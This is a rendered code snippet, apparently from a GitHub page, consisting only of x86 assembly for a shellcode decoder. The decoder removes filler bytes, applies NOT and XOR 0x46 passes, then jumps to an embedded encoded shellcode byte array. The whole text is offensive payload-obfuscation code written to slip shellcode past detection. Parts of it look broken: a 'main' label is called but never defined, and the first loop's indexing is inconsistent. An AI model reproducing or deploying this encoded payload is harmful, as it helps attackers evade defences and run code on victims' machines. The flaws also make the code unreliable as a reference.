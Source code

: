 ```term

      xor eax, eax                   ; Zeroes out EAX
      xor ebx, ebx                   ; Zeroes out EBX

      mov cl, 44                     ; Stores counter (44 bytes)
      mov al, 1                      ; Makes AL hold value 1 for later calculations.

decode:

      mov bl, byte [esi + eax]       ; Points to 0x45
      xor bl, 0x45                   ; Turns 0x45 into 0x00
      mov bl, byte [esi + eax + 1]   ; Grabs intended value
      mov byte [edi], bl             ; Replaces 0x00 for the intended value
      inc edi                        ; Increments EDI, holding next 0xAA for replacement
      add al, 2                      ; Adds 2 in order to continue the process
      loop decode                    ; Starts loop

      mov cl, 22                     ; Stores counter (22 bytes)
      xor esi, esi                   ; Zeroes out ESI
      mov esi, ebp                   ; Copies the value from ebp to esi

decode2:

      not byte [esi]                 ; Performs a NOT operation on the value pointed by ESI
      inc esi                        ; Increments ESI, therefore performing a NOT operation on every opcode
      loop decode2                   ; Starts loop

      mov cl, 22                     ; Stores counter (22 bytes)
      xor esi, esi                   ; Zeroes out ESI
      mov esi, ebp                   ; Copies the value from ebp to esi

decode3:

      xor byte [esi], 0x46           ; Performs a XOR operation between the value of ESI and 0x46
      inc esi                        ; Increments ESI, therefore performing aXOR operation on every opcode
      loop decode3                   ; Starts loop
      jmp short shellcode            ; Jumps to the shellcode

master:

      call main                      ; Calls to main and pops shellcode into the stack

      shellcode: db 0x88,0x45,0x79,0x45,0xe9,0x45,0xd1,0x45,0x96,0x45,0x96,0x45,0xca,0x45,0xd1,0x45,0xd1,0x45,0x96,0x45,0xdb,0x45,0xd0,0x45,0xd7,0x45,0x30,0x45,0x5a,0x45,0xe9,0x45,0x30,0x45,0x5b,0x45,0x09,0x45,0xb2,0x45,0x74,0x45,0x39,0x45
```

### Code
